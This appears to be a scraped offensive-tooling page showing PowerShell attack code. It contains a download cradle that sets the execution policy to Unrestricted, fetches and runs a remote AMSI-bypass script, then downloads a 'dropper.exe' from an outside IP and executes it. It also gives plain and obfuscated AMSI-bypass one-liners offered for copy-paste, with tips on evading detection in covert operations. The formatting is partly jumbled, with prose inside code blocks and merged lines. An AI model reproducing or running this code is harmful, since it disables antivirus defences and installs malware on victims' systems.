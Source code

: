 ```powershell

$ProcName = "dropper.exe"
$wc = [System.Net.WebClient]::new()
$wc.DownloadFile("http://62[.]182[.]84[.]61/$ProcName", "$env:APPDATA\$ProcName")
$wc.Dispose()

Finally, the payload script executes the downloaded binary (which we will refer to as the “2nd stage payload”), after clearing the script’s output from the screen:

Clear-Host
Start-Process ("$env:APPDATA\$ProcName")

The content of AMSI-Bypass is listed below:

S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

The final & complete downloadCradleScript.ps1 is listed below: 

```powershell

New-ItemProperty -Path 'HKCU:Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell' 
-Name 'ExecutionPolicy' -Value "Unrestricted" -PropertyType String -Force Clear-Host
$wr = [System.NET.webRequest]::Create('http://192.168.1.125/AMSI-bypass.ps1')
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
$ProcName = "dropper.exe" $WebFile = "http://62[.]182[.]84[.]61/4563636/$ProcName"  
(New-Object System.Net.WebClient).DownloadFile($WebFile,"$env:APPDATA\$ProcName") 
Start-Process ("$env:APPDATA\$ProcName")


```


### 3) Powershell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged. Obfuscate, or even better, eliminate the need for an __AMSI bypass__ altogether by altering your scripts to beat signature-based detection.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
Obfuscation example for copy-paste purposes:

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

